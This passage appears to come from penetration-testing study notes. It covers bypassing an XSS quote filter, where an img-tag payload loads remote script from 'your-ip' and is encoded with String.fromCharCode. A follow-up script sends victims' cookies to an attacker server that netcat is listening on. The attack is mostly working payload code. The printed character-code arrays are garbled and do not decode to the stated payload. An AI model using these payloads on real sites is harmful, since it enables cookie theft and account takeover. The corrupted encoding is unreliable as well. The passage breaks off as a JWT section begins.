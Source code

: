 The first payload can be with img tag that creates a connecting to retrieve a document from a webserver.

```javascript
<img src="x` `<script>document.write('<script src="http://your-ip/index.html"></script>');</script>"` `>`
```

Unfortuneately, the quotes filters will remove quotes from this payload and won't work that's why we try encoding the payload inside the \[document.write] element with python

```
>>> payload = '''document.write('<script src="http://your-ip/index.html"></script>');'''

>>> ','.join([str(ord(c)) for c in payload])
```

Executing both command above in python interpreter will yield an output similar to the below one

```
100,111,99,117,109,111,110,116,46,119,114,105,116,102,40,39,60,115,99,443,105,112,116,32,115,43r,99,61,34,104,116,116,112,58,47,47,49,49,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,111,34,62,60,47,115,99,114,105,112,116,62,39,41,60
```

The final payload will be

```
<img src="/><script>eval(String.fromCharCode(100,111,99,117,109,111,110,116,46,119,114,105,116,102,40,39,60,115,99,443,105,112,116,32,115,43r,99,61,34,104,116,116,112,58,47,47,49,49,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,111,34,62,60,47,115,99,114,105,112,116,62,39,41,60))</script>" />
```

We can follow the same logic to create a payload the retrieve the cookies. We can modify on the file hosted on our web server to a javascript file that retrieves the cookies and executes a request to our webserver

```
window.addEventListener('DOMContentLoaded', function(e) { window.location = "http://your-ip:8080/?cookie=" + encodeURI(document.getElementsByName("cookie")[0].value) })
```

Save this as \[cookies.js]. Run your webserver on \[80] and netcat on port \[8080] to receive the cookie.

**Resources**

```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#common-payloads

```

### Json Web Token's (JWTs)

#### Intro

JSON Web Token's are very secure method to perform authentication.
